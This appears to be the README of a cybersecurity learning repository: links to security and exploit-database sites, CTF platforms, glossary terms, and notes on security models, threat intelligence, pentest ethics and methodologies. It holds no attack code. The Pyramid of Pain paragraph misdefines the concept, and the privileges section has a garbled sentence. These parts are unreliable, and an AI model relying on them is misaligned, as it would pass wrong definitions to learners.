






<h2 align="center">Remember to take a look at the <code>/More</code> folder! ;)</h2>


# List of Contents
1. [Links](#links)
2. [CTF Sites](#ctf-sites)
3. [Books](#books)
4. [Services](#services)
5. [Terms](#terms)
6. [Principles and Standards](#principles-and-standards)
   1. [CIA Triad](#cia-triad)
   2. [Principle of privileges](#principles-of-privileges)
   3. [Security Models](#security-models)
   4. [Threat modeling and incident response](#threat-modeling-and-incident-response)
   5. [Ethics](#ethics)
   6. [Methodologies](#methodologies)
   7. [Black, grey & white box](#black-grey--white-box)
   8. [ISO27001](#iso27001)
7.  [Linux Commands](#linux-commands)
8. [Tools (CLI)](#tools-cli)
   1. [Aircrack-ng](#aircrack-ng)
   2. [Feroxbuster](#feroxbuster)
   3. [Hashcat](#hashcat)
   4. [Hydra](#hydra)
   5. [Gobuster](#gobuster)
   6. [John The Ripper](#john-the-ripper)
   7. [Metasploit](#metasploit)
   8. [Netcat](#netcat)
   9.  [Nikto](#nikto-2)
   10. [Nmap](#nmap)
9.  [Tools (GUI)](#tools-gui)
    1.  [Burp Suite](#burp)
    2.  [Nessus](#nessus)
    3.  [Wireshark](#wireshark)
10. [Text Editors](#text-editors)
    1.  [Nano](#nano)
    2.  [VIM](#vim)
11. [Cryptology](#cryptology)
    1. [Generate Keys](#generate-keys)
12. [Networking](#networking) 
13. [Web Exploitation](#web-exploitation)
    1.  [Content Discovery](#content-discovery)
    2.  [SQL Injection](#sql-injection)
    3.  [Command Injection](#command-injection)
    4.  [Directory Traversal](#directory-traversal)
    5.  [Authentication Bypass](#authentication-bypass)
    6.  [Insecure Direct Object Reference](#insecure-direct-object-reference)
    7.  [File Inclusion](#file-inclusion)
    8.  [Cross Site Request Forgery](#cross-site-request-forgery)
    9.  [Cross Site Scripting](#cross-site-scripting-xss)
    10. [Server Side Request Forgery](#server-side-request-forgery)
14. [Forensics](#forensics)
    1.  [File Analysis](#file-analysis)
    2.  [PCAP Analysis](#pcap-analysis)
    3.  [Steganography](#steganography)
    4.  [Memory Analysis](#memory-analysis)
    5.  [Disk Imaging](#disk-imaging)
15. [Binary Exploitation](#binary-exploitation)
    1.  [Registers](#registers)
    2.  [The Stack](#the-stack)
    3.  [Calling Conventions](#calling-conventions)
    4.  [Global Offset Table (GOT)](#global-offset-table-got)
    5.  [Buffers and Buffer Overflows](#buffers)
    6.  [Return Oriented Programming (ROP)](#return-oriented-programming-rop)
    7.  [Binary Security](#binary-security)
    8.  [The Heap and Exploitation](#the-heap)
    9.  [Format String Vulnerability](#format-string-vulnerability)
16. [Reverse Engineering](#reverse-engineering)
    1.  [Assembly](#assembly)
    2.  [Disassemblers](#disassemblers)
17. [Cryptography](#cryptography)
    1.  [Encoding](#encoding)
    2.  [Hashing](#hashing)
    3.  [Ciphers](#ciphers)
    4.  [Encryption (RSA)](#encryption-rsa)
18. [Miscellaneous](#miscellaneous)
19. [Windows Exploitation](#windows-exploitation)
    1.  [Active Directory](#active-directory)   
20. [Shells and Privilege Escalation](#shells-and-privilege-escalation)
    1.  [TTY Shell](#tty-shell)
    2.  [Privilege Escalation](#privilege-escalation)
21. [Vulnerabilities](#vulnerabilities)
    1.  [Social Engineering](#social-engineering)
    2.  [Misconfigurations](#misconfigurations)

# Links
[Abuse.ch](https://abuse.ch) - a collection of malware and threat intelligence feeds.  
[AI Generated Photos](https://generated.photos) - 100.000 AI generated faces.    
[Archive.org](https://archive.org/web/) - internet Archieve    
[Assembly Tutorials](https://www.tutorialspoint.com/assembly_programming/index.htm) - assembly tutorials  
[Bcrypt Generator](https://bcrypt-generator.com) - a simple bcrypt generator  
[Bug Bounty](https://hackerone.com/bug-bounty-programs) - a list of bug bounty programs  
[Can I use](https://caniuse.com) - provides up-to-date browser support tables for support of front-end web technologies.      
[Cheatography](https://www.cheatography.com/) - over 3,000 free cheat sheets, revision aids and quick references.    
[CodeBeautify](https://codebeautify.org) - code Beautifier, Viewer and converter    
[Common ports](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-ports.html) - a lists of the most common ports   
[Cipher Identifier](https://www.boxentriq.com/code-breaking/cipher-identifier) - cipher identifier    
[Convert Binary](https://www.convertbinary.com) - a wide range of different converters for binary numbers      
[Convertcsv](https://www.convertcsv.com/sql-to-csv.htm) - convert SQL to CSV     
[Crackstation (Rainbow tables)](https://crackstation.net) - hash cracker      
[CSS Reference](https://cssreference.io) - CSS reference    
[CVE Details](https://www.cvedetails.com/) - CVE security vulnerability advanced database.      
[CVE Mitre](https://cve.mitre.org) - list of publicly known cybersecurity vulnerabilities.  
[CVS](https://www.first.org/cvss/calculator/3.1) - Scoring System Calculator     
[CyberChef](https://gchq.github.io/CyberChef/) - a web app for encryption, encoding, compression and data analysis.     
[Cybercrime Tracker](https://cybercrime-tracker.net) - monitors and tracks various malware families that are used to perpetrate cyber crimes.  
[crt.sh](https://crt.sh) - Certificate Transparency Log Search Engine for subdomain enumeration.  
[CTF 101](https://ctf101.org) - learn the different CTF topics in cybersecurity  
[CTF Cryptography](https://charcharbinks.com/post/ctf_crypto_for_beginners/) - ctf cryptography for beginners  
[dCode](https://www.dcode.fr/en) - dcode.fr has many decoders for a lot of ciphers  
[dehashed](https://www.dehashed.com/) - is a hacked database search engine.     
[Diff Checker](https://www.diffchecker.com/image-compare/) - compare images  
[DNSDumpster](https://dnsdumpster.com) - free domain research tool that can discover hosts related to a domain    
[Explain Shell](https://explainshell.com) - a tool to help you understand shell commands.  
[ExploitDB](https://www.exploit-db.com) - searchable archive from The Exploit Database.      
[fakenamegenerator](https://www.fakenamegenerator.com) - your randomly generated identity.     
[Feodo Tracker](https://feodotracker.abuse.ch) - a project by abuse.ch tracking the C2 infrastructure of the Feodo Tracker Botnet.  
[File Signature](https://www.garykessler.net/library/file_sigs.html) -  a table of file signatures (aka "magic numbers")  
[File Signature Wiki](https://en.wikipedia.org/wiki/List_of_file_signatures) - another list of file signatures (aka "magic numbers")  
[Forensically](https://29a.ch/photo-forensics/#forensic-magnifier) - a tool to analyze images.  
[Godbolt](https://godbolt.org) - compiler explorer   
[Google advanced search](https://www.google.dk/advanced_search) - google dorking made easy      
[Google Hacking Database](https://www.exploit-db.com/google-hacking-database) - juicy information found by dorking      
[GTFOBins](https://gtfobins.github.io) - list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.    
[HackerOne](https://www.hackerone.com) -  HackerOne is a vulnerability coordination and bug bounty platform.  
[Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) - tool to identify hash types      
[have i been pwned?](https://haveibeenpwned.com) - check if you have an account that has been compromised in a data breach.        
[HexEd](https://hexed.it) - HexEd is a powerful online hex editor running in your web browser  
[hilite.me](http://hilite.me) - converts your code snippets into pretty-printed HTML formats    
[HSV to RGB](https://www.rapidtables.com/convert/color/hsv-to-rgb.html) - HSV to RGB color converter     
[HTML Reference](https://htmlreference.io) - HTML reference    
[HTTrack](https://www.httrack.com) - website copier      
[Image Color Picker](https://imagecolorpicker.com) - select a color and get the HTML Color Code of this pixel   
[Intelix](https://intelx.io) - Search Tor, I2P, data leaks and the public web by email, domain, IP, CIDR, Bitcoin address and more.    
[k8s-security](https://github.com/kabachook/k8s-security) - kubernetes security notes and best practices.      
[Kali Linux Tutorials](https://www.tutorialspoint.com/kali_linux/index.htm) - Kali Linux Tutorials  
[Keybase](https://keybase.io/) - it's open source and powered by public-key cryptography.    
[LFI](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/) - learn about local file inclusion   
[Linux Commands](https://www.mediacollege.com/linux/command/linux-command.html) - a list of linux commands       
[malc0de](http://malc0de.com/database) - malware search engine.    
[Malware Bazaar](https://bazaar.abuse.ch) - malware search engine.  
[MD5 Online](https://www.md5online.org/md5-decrypt.html) - md5Online offers several tools related to the MD5 cryptographic algorithm.     
[Morse Code Translator](https://morsecode.world/international/translator.html) a morse code translator   
[Morse Code Adaptive Audio Decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) - a morse code adaptive audio decoder  
[Morse Code Audio Decoder](https://morsecode.world/international/decoder/audio-decoder-expert.html) - a morse code audio decoder    
[Morse Code Sound & Vibration Listener](https://databorder.com/transfer/morse-sound-receiver/) - a morse code sound & vibration listener  
[Namechk](https://namechk.com) - check if your desired username is available on over 500 social networks (username OSINT).  
[NerdyData](https://www.nerdydata.com) - the search engine for source code  
[Observatory by Mozilla](https://observatory.mozilla.org)- set of tools to analyze your website.    
[Office Recovery](https://online.officerecovery.com/pixrecovery/) - repair corrupt JPEG, PNG, GIF, BMP, TIFF, and RAW images.  
[PDF24](https://tools.pdf24.org/) - free and easy to use online PDF tools    
[Phishtool](https://www.phishtool.com) - PhishTool is a free phishing simulation tool.   
[Ping.eu](https://ping.eu/) - online Ping, Traceroute, DNS lookup, WHOIS and others.      
[pipl](https://pipl.com/) - is the place to find the person behind the email address, social username or phone number.  
[Pixrecovery](https://online.officerecovery.com/pixrecovery/) - repair corrupt JPEG, PNG, GIF, BMP, TIFF, and RAW images.  
[Regex101](https://regex101.com) - online regex tester and debugger: PHP, PCRE, Python, Golang and JavaScript.    
[RegEx Pal](https://www.regexpal.com/) - online regex testing tool + other tools.      
[RegExr](https://regexr.com/) - online tool to learn, build, & test Regular Expressions (RegEx / RegExp).      
[Revshell](https://www.revshells.com) - reverse shell generator.  
[RequestBin](https://requestbin.com) - RequestBin gives you a URL that collects requests  so you can inspect them in a human-friendly way   
[RGBA Color Picker](https://rgbacolorpicker.com) - an RGBA color picker    
[ShellCheck](https://www.shellcheck.net) - finds bugs in your shell scripts.     
[Shodan](https://www.shodan.io) - learn various pieces of information about the client’s network, without actively connecting to it.  
[sploitus](https://sploitus.com) - the exploit and tools database.      
[SSL Scanner](http://www.ssltools.com) - analyze website security.      
[Steganographic Decoder](https://futureboy.us/stegano/decinput.html) - decodes the payload that was hidden in a JPEG image or a WAV or AU audio file     
[Subnet Calculator](https://www.calculator.net/ip-subnet-calculator.html) - IPv4 to IPv6 subnet calculator     
[Subnet Cheatsheet](https://www.freecodecamp.org/news/subnet-cheat-sheet-24-subnet-mask-30-26-27-29-and-other-ip-address-cidr-network-references/) - subnet cheatsheet  
[SSL Blacklist](https://sslbl.abuse.ch) - a free SSL blacklist that can be used to detect malicious SSL certificates.  
[Tabulate](https://pypi.org/project/tabulate/) - create clean looking tables  
[Talos Intelligence](https://talosintelligence.com) - threat intelligence from Cisco.  
[Threat Fox](https://threatfox.abuse.ch) - a resource for sharing indicators of compromise (IOCs).  
[TIO](https://tio.run/#) - TIO is a free online interpreter, compiler and REPL.  
[URL Haus](https://urlhaus.abuse.ch) - a project by abuse.ch to collect and classify malicious URLs.  
[urlscan.io](https://urlscan.io) - service to scan and analyse websites.      
[urlvoid ](https://www.urlvoid.com) - this service helps you detect potentially malicious websites.   
[User-Agent Switcher](https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/) switch and manage user agents     
[ViewDNS](http://viewdns.info) - one source for free DNS related tools and information.      
[VirusTotal](https://www.virustotal.com/gui/home/upload) - analyze suspicious files and URLs to detect types of malware.     
[Visual Subnet Calculator](https://www.davidc.net/sites/default/subnets/subnets.html) - a visual subnet calculator  
[WebToolHub-LE](https://www.webtoolhub.com/tn561364-link-extractor.aspx) - HTML hyperlink extractor      
[WebToolHub](https://www.webtoolhub.com) - lots of different web tools  
[WhatsMyName](https://whatsmyname.app) - social media username enumeration     
[WHOIS lookup](https://whois.domaintools.com) - best whois lookup    
[Wigle](https://wigle.net) - is a website for collecting information about the different wireless hotspots around the world      

# CTF Sites
[TryHackMe](https://tryhackme.com) - TryHackMe is a free online platform for learning cyber security, using hands-on exercises and labs.  
[HackTheBox](https://www.hackthebox.com/) - HackTheBox is a massive, online cybersecurity practical training platform.  
[CTFLearn](https://ctflearn.com) - An online platform built to help ethical hackers learn, practice, and compete.   
[Challenges](https://challenges.re) - Reverse engineering CTF training platform      
[Root Me](https://www.root-me.org) - Root Me is a platform for everyone to test and improve knowledge in computer security and hacking.  
[ROP Emperium](https://ropemporium.com) - ROP Emporium is a series of challenges based around Return Oriented Programming (ROP).  
[pico CTF](https://picoctf.org/) - picoCTF is a free computer security game targeted at middle and high school students.  

# Books
- Penetration Testing
- Linux Basics for Hackers
- The Linux Command Line and Shell Scripting Bible
- Black Hat Python
- The  Hacker PlayBook 2
- The Hacker PlayBook 3
- Hacker Methodology Handbook
- Gray Hat Hacking
- Red Team Field Manual
- Metasploit
- The Web Application Hacker’s Handbook
- Real-World Bug Hunting
- Attacking Network Protocols

# Services
## Network security
An Intrusion Detection System (IDS) is a system that detects network or system intrusions.  

An Intrusion Detection and Prevention System (IDPS) or simply Intrusion Prevention System (IPS) is a system that can detect and prevent intrusions.

IDS setups can be divided based on their location in the network into:
* Host-based IDS (HIDS)
* Network-based IDS (NIDS)

The host-based IDS (HIDS) is installed on an OS along with the other running applications. This setup will give the HIDS the ability to monitor the traffic going in and out of the host; moreover, it can monitor the processes running on the host.

The network-based IDS (NIDS) is a dedicated appliance or server to monitor the network traffic. The NIDS should be connected so that it can monitor all the network traffic of the network or VLANs we want to protect. This can be achieved by connecting the NIDS to a monitor port on the switch. The NIDS will process the network traffic to detect malicious traffic.

## VPS Providers
A Virtual Private Server (VPS) is an isolated environment created on a physical server using virtualization technology.

Some of these providers are:  
* [Vultr](https://www.vultr.com/products/cloud-compute/)	 
* [Linode](https://www.linode.com/pricing/)
* [DigitalOcean](https://www.digitalocean.com/pricing)	
* [OneHostCloud](https://onehostcloud.hosting)

# Terms
**Active reconnaissance** - Directly interacting with the system.  
**Passive reconnaissance** - We rely on publicly available information.   
**IDOR** - IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.    
**Proxy** -  A proxy server is kind of gateway betweenour application and the internet   
**SSL/TLS** - Both are cryptographic protocols that securely authenticate and transport data on the Internet. SSL is old, TLS is the new one.  
**XSS** - Cross-Site Scripting is a security vulnerability that's typically found in web applications which can be used to execute a malicious script on the target's machine  
**IPP** - Internet Printing Protocol  
**Hash collision** -  When 2 different inputs give the same output  
**Rainbow tables** - A rainbow table is a lookup table of hashes to plaintexts  
**SAM** -  Security Account Manager is a database that is present on computers running Windows that stores user accounts and security descriptors for users on the local computer  
**Ciphertext** - The result of encrypting a plaintext, encrypted data  
**Cipher** - A method of encrypting or decrypting data. Modern ciphers are cryptographic, but there are many non cryptographic ciphers like Caesar.  
**Plaintext** - Data before encryption, often text but not always. Could be a photograph or other file  
**Encryption** - Transforming data into ciphertext, using a cipher.  
**Encoding** - NOT a form of encryption, just a form of data representation like base64. Immediately reversible.  
**Key** - Some information that is needed to correctly decrypt the ciphertext and obtain the plaintext.  
**Passphrase** - Separate to the key, a passphrase is similar to a password and used to protect a key.  
**Asymmetric** encryption - Uses different keys to encrypt and decrypt.  
**Symmetric encryption** - Uses the same key to encrypt and decrypt  
**Brute force** - Attacking cryptography by trying every different password or every different key  
**Cryptanalysis** - Attacking cryptography by finding a weakness in the underlying maths  
**VPS** - Virtual Private Server (is a IaaS)  
**IaaS** - Infrastructure-as-a-Service  
**RCE** - Remote Code Execution vulnerability allows commands to be executed on the target's system.  
**Offensive security** - is the process of breaking into computer systems, exploiting software bugs, and finding loopholes in applications to gain unauthorized access to them.  
**Defensive security** - is the process of protecting an organization's network and computer systems by analyzing and securing any potential digital threats  
**Penetration Tester** - Responsible for testing technology products for finding exploitable security vulnerabilities.  
**Red Teamer** - Plays the role of an adversary, attacking an organization and providing feedback from an enemy's perspective.  
**Security Engineer** - Design, monitor, and maintain security controls, networks, and systems to help prevent cyberattacks.  
**Broken Access Control** - Ex. we cannot let anyone view the webmail before logging in or modify someone else's account.  
**Identification and Authentication Failure** - Allowing the attacker to use brute force, or storing the users’ passwords in plain text.   
**Identification** - refers to the ability to identify a user uniquely.   
**Authentication** - refers to the ability to prove that the user is whom they claims to be.  
**Firewall appliance** - The firewall allows and blocks connections based on a predefined set of rules. It restricts what can enter and what can leave a network.  
**Intrusion Detection System (IDS) appliance** - An IDS detects system and network intrusions and intrusion attempts. It tries to detect attackers’ attempts to break into your network.  
**Intrusion Prevention System (IPS) appliance** - An IPS blocks detected intrusions and intrusion attempts. It aims to prevent attackers from breaking into your network.  
**Virtual Private Network (VPN) concentrator appliance** -  A VPN ensures that the network traffic cannot be read nor altered by a third party. It protects the confidentiality (secrecy) and integrity of the sent data.  
**Defacing** - The act of modifying a website to display a message or image.

# Principles and Standards
## CIA Triad
Consisting of three sections: Confidentiality, Integrity and Availability (CIA), this model has quickly become an industry standard today. This model should help determine the value of data that it applies to, and in turn, the attention it needs from the business.  

**Confidentiality**: This element is the protection of data from unauthorized access and misuse
Integrity

**Integrity**: This element is the condition where information is kept accurate and consistent unless authorized changes are made.

**Availability**:  In order for data to be useful, it must be available and accessible by the user.

## Principles of privileges
It is vital to administrate and correctly define the various levels of access to an information technology system individuals require. 

The levels of access given to individuals are determined on two primary factors:
1. The individual's role/function within the organisation
2. The sensitivity of the information being stored on the system

Two key concepts are used to assign and manage the access rights of individuals, two key concepts are used: Privileged Identity Management (PIM) and Privileged Access Management (or PAM for short).

**PIM** is used to translate a user's role within an organisation into an access role on a system. Whereas **PAM** is the management of the privileges a system's access role has, amongst other things.

What is essential when discussing privilege and access controls is the principle of least privilege. Simply, users should be given the minimum amount of privileges, and only those that are absolutely necessary for them to perform their duties. Other people should be able to trust what people write to.

## Security models
### The Bell-La Padula Model
The Bell-La Padula Model is used to achieve confidentiality. This model has a few assumptions, such as an organisation's hierarchical structure it is used in, where everyone's responsibilities/roles are well-defined.

The model works by granting access to pieces of data (called objects) on a strictly need to know basis. This model uses the rule "no write down, no read up".

The Bell LaPadula Model is popular within organisations such as governmental and military.

### Biba Model
The Biba model is arguably the equivalent of the Bell-La Padula model but for the integrity of the CIA triad.

This model applies the rule to objects (data) and subjects (users) that can be summarised as "no write up, no read down". This rule means that subjects can create or write content to objects at or below their level but can only read the contents of objects above the subject's level.

## Threat modeling and incident response
Threat modelling is the process of reviewing, improving, and testing the security protocols in place in an organisation's information technology infrastructure and services.

The threat modelling process is very similar to a risk assessment made in workplaces for employees and customers. The principles all return to:
* Preparation
* Identification
* Mitigations
* Review
  
It is, however, a complex process that needs constant review and discussion with a dedicated team. An effective threat model includes:

* Threat intelligence
* Asset identification
* Mitigation capabilities
* Risk assessment

To help with this, there are frameworks such as **STRIDE** (Spoofing identity, Tampering with data, Repudiation threats, Information disclosure, Denial of Service and Elevation of privileges) and **PASTA** (Process for Attack Simulation and Threat Analysis)

### Threat intelligence Classifications
Threat Intel is geared towards understanding the relationship between your operational environment and your adversary. With this in mind, we can break down threat intel into the following classifications:

- **Strategic Intel:** High-level intel that looks into the organisation's threat landscape and maps out the risk areas based on trends, patterns and emerging threats that may impact business decisions.
- **Technical Intel:** Looks into evidence and artefacts of attack used by an adversary. Incident Response teams can use this intel to create a baseline attack surface to analyse and develop defence mechanisms.
- **Tactical Intel:** Assesses adversaries' tactics, techniques, and procedures (TTPs). This intel can strengthen security controls and address vulnerabilities through real-time investigations.
- **Operational Intel:** Looks into an adversary's specific motives and intent to perform an attack. Security teams may use this intel to understand the critical assets available in the organisation (people, processes, and technologies) that may be targeted.

#### Threat intelligence Tools
- Using UrlScan.io to scan for malicious URLs.
- Using Abuse.ch to track malware and botnet indicators.
- Investigate phishing emails using PhishTool
- Using Cisco's Talos Intelligence platform for intel gathering.

## The pyramid of pain
The Pyramid of Pain is a cybersecurity concept that refers to a hierarchy of assets within an organization that, if compromised, would cause the most significant harm. The pyramid's height represents the level of harm caused by a security breach, with the most critical assets at the top and less critical assets at the bottom. 

The idea is that organizations should focus their cybersecurity efforts on the assets at the top of the pyramid to prevent the most significant damage from a security breach. The components of the Pyramid of Pain may vary depending on the organization and its specific needs, but typically include sensitive data, critical infrastructure, key personnel, and reputation.



## Ethics
### Penetration tests
Before a penetration test starts, a formal discussion occurs between the penetration tester and the system owner. Various tools, techniques, and systems to be tested are agreed on. This discussion forms the scope of the penetration testing agreement and will determine the course the penetration test takes.

### Rules of Engagement (ROE)
The ROE is a document that is created at the initial stages of a penetration testing engagement. This document consists of three main sections:
* Permission
* Test scope
* Rules

### Hat categories
Hackers are sorted into three hats, where their ethics and motivations behind their actions determine what hat category they are placed into.
| Hat | Description |
|---|---|
| Black hat | These people are criminals and often seek to damage organisations or gain some form of financial benefit at the cost of others. |
| Grey hat | These people use their skills to benefit others often; however, they do not respect/follow the law or ethical standards at all times. |
| White hat | These hackers are considered the "good people". They remain within the law and use their skills to benefit others. |

## Methodologies
The steps a penetration tester takes during an engagement is known as the methodology. A practical methodology is a smart one, where the steps taken are relevant to the situation at hand.  
All of them have a general theme of the following stages:
| Stage | Description |
|---|---|
| Information Gathering | This stage involves collecting as much publically accessible information about a target/organisation as possible, for example, OSINT and research.  Note: This does not involve scanning any systems. |
| Enumeration/Scanning | This stage involves discovering applications and services running on the systems. For example, finding a web server that may be potentially vulnerable. |
| Exploitation | This stage involves leveraging vulnerabilities discovered on a system or application. This stage can involve the use of public exploits or exploiting application logic. |
| Privilege Escalation | Once you have successfully exploited a system or application (known as a foothold), this stage is the attempt to expand your access to a system. You can escalate horizontally and vertically, where horizontally is accessing another account of the same permission group (i.e. another user), whereas vertically is that of another permission group (i.e. an administrator). |
| Post-exploitation | This stage involves a few sub-stages: 1. What other hosts can be targeted (pivoting) 2. What additional information can we gather from the host now that we are a privileged user 3. Covering your tracks 4. Reporting |

### OSSTMM
The Open Source Security Testing Methodology Manual provides a detailed framework of testing strategies for systems, software, applications, communications and the human aspect of cybersecurity.

### OWASP
The "Open Web Application Security Project" framework is a community-driven and frequently updated framework used solely to test the security of web applications and services.

### NIST Cybersecurity Framework 1.1
The NIST Cybersecurity Framework is a popular framework used to improve an organisations cybersecurity standards and manage the risk of cyber threats.

### NCSC CAF
The Cyber Assessment Framework (CAF) is an extensive framework of fourteen principles used to assess the risk of various cyber threats and an organisation's defences against these

## Black, grey & white box
There are three primary scopes when testing an application or service. 

| Box | Description |
|---|---|
| Black | This testing process is a high-level process where the tester is not given any information about the inner workings of the application or service. |
| Grey | The tester will have some limited knowledge of the internal components of the application or piece of software. |
| White | The tester will have full knowledge of the application and its expected behaviour. |

## Career paths
| Career | Description |
|---|---|
| Security Analyst | Responsible for maintaining the security of an organisation's data |
| Security Engineer | Design, monitor and maintain security controls, networks, and systems to help prevent cyberattacks |
| Incident Responder | Identifies and mitigates attacks whilst an attackers operations are still unfolding |
| Digital Forensics Examiner | Responsible for using digital forensics to investigate incidents and crimes |
| Malware Analyst | Analyses all types of malware to learn more about how they work and what they do |
